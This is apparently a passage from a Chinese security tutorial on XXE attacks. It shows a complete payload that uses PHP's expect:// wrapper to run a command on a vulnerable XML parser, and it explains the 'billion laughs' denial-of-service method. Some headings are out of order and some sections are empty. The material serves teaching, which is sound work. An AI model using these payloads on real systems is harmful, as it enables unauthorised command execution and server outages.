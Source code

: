 <h4>7.3.3、注：</h4>
（1）英语注释
author作者、title标题、category类别、price价格、date日期、description描述
— — — — — —
（2）XML-Catalog
XML-Catalog 关于 XML 文件如何引用外部资源的控制
XML Catalog 是由来自一个或者多个 catalog 条目文件组成的 xml 文件，其保存了要校验的 xml 文件以及对应的 xsd 文件的映射，运行时自动将它们关联起来，从而实现对 xml 文件的校验
— — — — — —
（3）XML-core
XML-core是一组类，可以更轻松地使用浏览器和节点中的XML。我们希望能够在浏览器中验证Xades，具体所以我们可以验证欧盟信任列表上的签名。


#### 7.3.2、发送请求

— — — — — —

### 7.4、远程代码执行

> 
<h4>7.4.1、前提：</h4>
存在XXE漏洞
PHP expect被加载到脆弱的系统或XML处理器上
expect:// — 处理交互式的流，由 expect:// 封装协议打开的数据流 PTY 通过提供了对进程 stdio、stdout 和 stderr 的访问。
— — — — — —
<h4>7.4.2、属性：</h4>
<table><tbody>|允许读取|Yes
|允许写入|Yes
|允许添加|Yes
</tbody></table>
— — — — — —
<h4>7.4.3、示例：</h4>
&lt;?xml version="1.0"?&gt;<br/> &lt;!DOCTYPE GVI [ <br/> &lt;!ENTITY xxe SYSTEM "expect://id" &gt;]&gt;<br/> &lt;catalog&gt;        &lt;!--看注(2)--&gt;<br/>    &lt;core id="test1"&gt;        &lt;!--看注(3)--&gt;<br/>       &lt;author&gt;mike&lt;/author&gt;<br/>       &lt;title&gt;XML&lt;/title&gt;<br/>       &lt;category&gt;root&lt;/category&gt;<br/>       &lt;price&gt;30.00&lt;/price&gt;<br/>       &lt;date&gt;2022-05-01&lt;/date&gt;<br/>       &lt;description&gt;&amp;xxe;&lt;/description&gt;<br/>    &lt;/core&gt;<br/> &lt;/catalog&gt;
&lt;!--英文看注(1)--&gt;




#### 7.4.2、属性：

— — — — — —

### 7.5、拒绝服务攻击

> 
<h4>7.5.1、原理：</h4>
大多数XML解析器在解析XML文档时会将其保留在内存中，如果构造恶意的XML实体文件，以耗尽服务器的可用内存，造成了拒绝服务器攻击。
— — — — — —
<h4> 7.5.2、a billion laughs attack</h4>
**介绍：**
是一种 denial-of-service（DoS）攻击，它主要作用于XML文档解析器。它也被称为指数实体扩展攻击，是一种名副其实的XML炸弹。
— — — — — —
**原理：**通过恶意创建一系列递归的XML定义，在内存中产生上十亿的特定字符串，并被XML解析器保留在内存中，以耗尽服务器可用内存，从而造成拒绝服务攻击。
— — — — — —
在XMl中定义了一个实体lol9，它的值包含了十个实体lol8的值
而每个lol8又包含了十个lol7的值
……
最后产生10亿个“lol”字符串，占用内存约高达3GB。

